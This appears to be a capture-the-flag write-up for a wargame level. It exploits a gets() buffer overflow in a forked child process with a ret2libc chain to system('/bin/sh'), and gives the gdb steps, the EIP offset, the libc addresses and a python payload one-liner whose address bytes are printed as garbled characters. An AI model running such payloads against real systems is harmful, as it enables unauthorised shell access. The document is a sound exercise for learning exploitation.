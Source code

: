 
# Level04 - Exploiting a Buffer Overflow with Ret2libc

## Step 1: Running the Program

First, let's run the program to observe its behavior:

```bash
$ ./level04
Give me some shellcode, k
coucou
child is exiting...
```

The program asks for input and then exits.

## Step 2: Analyzing with GDB

To understand the program, let's analyze it using GDB (GNU Debugger). The program performs a `fork()`, and the child process reads input using `gets()`. The parent process uses `ptrace` to monitor the child, checking if it calls the `exec` function.

```assembly
0x080487f6 <+302>: mov    DWORD PTR [esp],0x8048931
0x080487fd <+309>: call   0x8048500 <puts@plt>
```

If `exec()` is called, the program outputs `"no exec() for you"`.

## Step 3: Exploiting the Buffer Overflow

We can overflow the `gets()` buffer in the child process. Use a long input string to find the offset to control EIP (Instruction Pointer).

```bash
$ gdb -q ./level04
(gdb) set follow-fork-mode child
(gdb) r
Starting program: /home/users/level04/level04
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

The program segfaults, indicating control of EIP.

### Finding the Offset

```bash
(gdb) r
Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2283]
0x41326641 in ?? ()
```
We need to determine the offset at which the buffer overflows with the help of https://wiremask.eu/tools/buffer-overflow-pattern-generator/?:
We find that EIP is overwritten at offset `156`.

## Step 4: Ret2libc Attack

We will use a Ret2libc attack by calling `system("/bin/sh")`. We need the addresses of `system()`, `exit()`, and the string `"/bin/sh"`.

### Finding Required Addresses

1. **`system` Address**:
   ```bash
   (gdb) info function system
   0xf7e6aed0  system
   ```

2. **`exit` Address**:
   ```bash
   (gdb) info function exit
   0xf7e5eb70  exit
   ```

3. **`/bin/sh` String**:
   ```bash
   (gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
   0xf7f897ec
   ```

### Building the Payload

Construct the payload with the addresses found:

```bash
("B" * 156) + system + exit + "/bin/sh"
```

### Executing the Exploit

Save the payload to a file and run the program:

```bash
$ python -c 'print "B"*156+"Ð®æ÷"+"pëå÷"+"ìø÷"' > /tmp/payload
$ cat /tmp/payload - | ./level04
Give me some shellcode, k
whoami
level05
```

## Summary

- The program is vulnerable to a buffer overflow via `gets()`.
- Using the overflow, we performed a Ret2libc attack to call `system("/bin/sh")`.
- This allowed us to bypass security checks and gain shell access.

This exercise demonstrates a common technique for exploiting buffer overflows when direct execution is restricted.
